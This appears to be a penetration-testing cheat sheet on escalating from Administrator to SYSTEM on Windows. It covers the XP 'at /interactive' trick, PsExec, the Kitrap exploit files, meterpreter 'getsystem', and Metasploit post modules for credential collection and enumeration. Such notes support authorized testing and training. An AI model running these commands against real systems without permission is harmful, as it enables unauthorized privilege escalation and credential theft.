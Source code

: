 ## Escalate to SYSTEM from Administrator

### On Windows XP and Older

If you have a GUI with a user that is included in Administrators group you first need to open up `cmd.exe` for the administrator. If you open up the cmd that is in Accessories it will be opened up as a normal user. And if you rightclick and do `Run as Administrator` you might need to know the Administrators password. Which you might not know. So instead you open up the cmd from `c:\windows\system32\cmd.exe`. This will give you a cmd with Administrators rights.

From here we want to become SYSTEM user. To do this we run:

First we check what time it is on the local machine:

```
time

# Now we set the time we want the system CMD to start. Probably one minuter after the time.
at 01:23 /interactive cmd.exe
```

And then the cmd with SYSTEM privs pops up.

### Vista and Newer

You first need to upload PsExec.exe and then you run:

```
psexec -i -s cmd.exe
```

### Kitrap

On some machines the `at 20:20` trick does not work. It never works on Windows 2003 for example. Instead you can use Kitrap. Upload both files and execute `vdmaillowed.exe`. I think it only works with GUI.

```
vdmallowed.exe
vdmexploit.dll
```

### Using Metasploit

So if you have a metasploit meterpreter session going you can run `getsystem`.


## Post modules

Some interesting metasploit post-modules

First you need to background the meterpreter shell and then you just run the post modules.  
You can also try some different post modules.

```
use exploit/windows/local/service_permissions

post/windows/gather/credentials/gpp

run post/windows/gather/credential_collector 

run post/multi/recon/local_exploit_suggester

run post/windows/gather/enum_shares

run post/windows/gather/enum_snmp

run post/windows/gather/enum_applications
```